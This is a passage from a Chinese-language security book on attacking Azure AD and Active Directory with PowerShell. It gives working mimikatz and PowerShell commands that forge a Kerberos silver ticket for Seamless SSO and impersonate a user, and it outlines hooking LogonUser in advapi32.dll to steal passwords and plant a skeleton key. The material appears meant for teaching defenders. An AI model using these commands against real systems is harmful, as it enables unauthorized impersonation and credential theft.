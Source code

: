 此命令需要直接在 DC 上执行，或者由可以复制信息的帐户执行（请参考*第六章*中的 DCSync 攻击信息，*Active Directory – 攻击* *与缓解*）。

一旦我们获得了该 NTLM 哈希（在此示例中，**a7d6e2ca8d636573871af8d4db34f236**），我们将把它保存在**$ntlmhash**变量中，稍后会利用这个变量：

```
> $ntlmhash = "a7d6e2ca8d636573871af8d4db34f236"
```

接下来，我们需要域和 SID。如果我们例如想要伪装成用户**PSSec-User**，以下命令将帮助我们获取所需信息：

```
$user = "PSSec-User"
$domain = (Get-CimInstance -ClassName Win32_ComputerSystem).Domain
$sid = ((New-Object System.Security.Principal.NTAccount($user)).Translate([System.Security.Principal.SecurityIdentifier])).Value
```

现在，我们使用之前收集的所有信息，通过**mimikatz**创建我们的银票：

```
> .\mimikatz.exe "kerberos::golden /user:$user /sid:$sid /id:666 /domain:$domain /rc4: $ntlmhash /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit
```

启动 Mozilla Firefox 并输入**about:config**。将 **network.negotiate-auth.trusted-uris** 配置为包含以下值：**https://aadg.windows.net.nsatc.net,**  **https://autologon.microsoftazuread-sso.com.**

现在，你可以通过浏览到任何与你的 AAD 域集成的 Web 应用程序，并利用无缝 SSO 访问它。

## 利用通行认证（PTA）

之前我们简要谈到过 PTA，这是一种认证概念，允许用户使用其本地凭据登录云端资源。

利用 PTA 是攻击者绕过合法认证过程的一种方法，通过挂钩系统用来通过 PTA 进行用户身份验证的 **advapi32.dll** 中的一个相关 **LogonUser*** 函数。通过将此函数替换为自己的恶意函数，攻击者不仅可以读取所有用于身份验证的密码，还可以实施自己的 **骨架钥匙**，使他们能够以每个用户的身份进行身份验证，而无需重置单个用户账户的密码。你可以将骨架钥匙想象成类似于主密码，使攻击者能够以任何用户的身份进行身份验证，而无需重置单个用户账户密码。

为了使此攻击有效，存在两个要求：首先，环境需要启用 PTA 的 AAD Connect；其次，攻击者需要访问一个具有管理员权限的账户，该账户可以访问安装了 PTA 认证代理的服务器。

让我们首先看看 PTA 如何工作。下图展示了 PTA 工作流的样子：

![图 7.23 – PTA 工作流](img/B16679_07_023.jpg)
